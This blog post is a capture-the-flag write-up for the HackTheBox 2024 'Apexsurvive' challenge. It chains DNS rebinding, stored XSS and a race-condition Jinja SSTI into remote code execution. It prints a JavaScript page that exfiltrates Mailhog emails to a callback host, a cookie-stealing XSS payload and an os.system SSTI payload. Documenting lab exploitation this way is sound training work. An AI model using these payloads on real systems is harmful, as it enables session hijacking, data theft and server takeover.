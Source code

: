 +++
title = 'HackTheBox Cyber Apocalypse 2024 Apexsurvive Writeup'
date = 2024-03-14T17:38:37+01:00
draft = false
+++

## First Steps
We analyze the code and notice the email page will only show emails addressed to *test@email.htb*.

![EmailCode](test-email.png)

We create a user with the email *test@email.htb* and confirm the registration by visiting the link from an email.

![Verify email 1](verify-email-1.png)

![Verify email 2](verify-email-2.png)

## DNS Rebinding to Activate an Internal User
Upon further code inspection, we found out that users who sign up with an email hosted at *apexsurvive.htb* will be marked as internal users.

![VerificationCode](apexsurvive-email.png)

There's an */external* API endpoint that can be used for an open redirect.

![Open redirect](open-redirect.png)

The emails are served by Mailhog running on port 9000 and can be internally retrieved by using the */api/v2/messages* endpoint.

![Mailhog port](mailhog-port.png)

We create a user *asdf@apexsurvive.htb*.

![Apex register](apex-register.png)

We log in and request a verification email. It won't appear in emails on the website.

![Apex verify](apex-verify.png)

We'll use the */external* endpoint for an open redirect to our controlled website and then do DNS rebinding to fetch emails from Mailhog running on port 9000 and get the confirmation email for the internal user. To do this, we'll set up an EC2 instance with a public IP address and then add a DNS NS record for it (keep in mind the dot at the end):

![DNS config](dns-config.png)

We have to allow incoming traffic from ports UDP 53 (for DNS) and TCP 9000 (for the HTTP server) at minimum. We configure the security group of our EC2 instance as following.

![Security group configuration](security-group.png)

On the instance, we'll run https://github.com/mogwailabs/DNSrebinder to change the resolution of my domain from EC2 public IP address to 127.0.0.1 after a moment:

    sudo python3 dnsrebinder.py --domain dynamic.mywebsite.xyz. --rebind 127.0.0.1 --ip <website-public-ip> --counter 1 --udp --ttl 1

We'll also run an HTTP server on it serving index.html that keeps fetching /api/v2/messages for Mailhog emails and then sends them back to us. **Remember it has to be on the same origin (port 9000).**

    sudo python3 -m http.server 9000

*index.html* served by the HTTP server:

    <html>
    <body>
    <script>
        (function () {
            var axhr = new XMLHttpRequest();
            axhr.open('GET', 'http://myburpcollab.oastify.com?start=start');
            axhr.send()
            var interval = setInterval(function () {
                var xhr = new XMLHttpRequest();
                xhr.open('GET', 'http://dynamic.mywebsite.xyz:9000/api/v2/messages', false);
                xhr.onload = function () {
                    if (xhr.status != 200) { return; }
                    var xhr2 = new XMLHttpRequest();
                    xhr2.open('GET', `http://myburpcollab.oastify.com?msgs=${btoa(this.responseText)}`);
                    xhr2.send();
                };
                xhr.send()
            }, 200)
        })();
    </script>
    </body>
    </html>

The script keeps fetching *http://dynamic.mywebsite.xyz:9000/api/v2/messages* in short intervals. which is on the same origin. After a while our DNS rebinder should switch from the EC2 IP address to localhost. Then, the script will successfully fetch the emails and send them back to us in base64.

We log in as *test@email.htb* and report:

    ../external?url=http://dynamic.mywebsite.xyz:9000/

We notice how after a short moment our DNS server starts resolving our domain to 127.0.0.1 instead of our public API.

![DNS rebind](dns-rebind.png)

It might take about 1 minute before the domain resolution is updated to 127.0.0.1. The first callback after the one with query parameter *start=start* one contains base64 encoded emails from Mailhog API. We decode them and get the confirmation link for the internal user.

![Exfiltrated emails](exfiltrated-emails.png)
![Base64 emails](base64-emails.png)

## Stored XSS to Steal the Session Cookie From the Admin
As an internal user, we now can add products. In */application/templates/product.html* we notice that the *product.note* (Product manual) from an input controlled by us is not sanitized and allows us to escape JS backticks.

![Product note JS string escape](product-note.png)

We add any new product and in the product manual we put in:

    `;fetch("https://myburpcollab.oastify.com/xss?c="+document.cookie);let x=`

![Add product](add-product.png)

We double-check we escaped JS backticks after adding the product:

![JS backtick escape](js-backtick-escape.png)

After we create it, we make the admin visit it by reporting its assigned product number. We take the admin session cookie from the callback.

![Admin session XSS](admin-session-xss.png)

## Leveraging a Race Condition for SSTI Leading to RCE
As an admin, we now can add PDF contracts. We notice that:
- the file is always saved to the same location before checking it’s a PDF,
- we can save the file anywhere by path traversal using “..” in the filename,
- the PDF check takes the temporary file from the file system, not directly from the request.

![Race condition in PDF upload](pdf-upload-race-condition.png)

As a result, **there’s a race condition between saving the temp file and checking that it’s a PDF.**

We prepare 2 files:
1) a small PDF,
2) a Jinja template that’ll read out the flag:

        Result {{ self.__init__.__globals__.__builtins__.__import__('os').system('/readflag > /app/application/static/images/flag.txt') }}

We upload both and add them to a burp repeater group like so:

![Burp parallel requests setup 1](burp-parallel-1.png)
![Burp parallel requests setup 2](burp-parallel-2.png)

We try sending them multiple times using “Send group (parallel)”. We can play around with the number of PDF/Jinja template requests in the group. We watch out for *message: Contract added* in a response to a Jinja template upload. We check for it by refreshing any product page multiple times. If we see our payload, the flag is available under */static/images/flag.txt*.

![Result 0](result-0.png)
![Apex flag](apex-flag.png)

## References
- https://unit42.paloaltonetworks.com/dns-rebinding/
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- https://portswigger.net/research/smashing-the-state-machine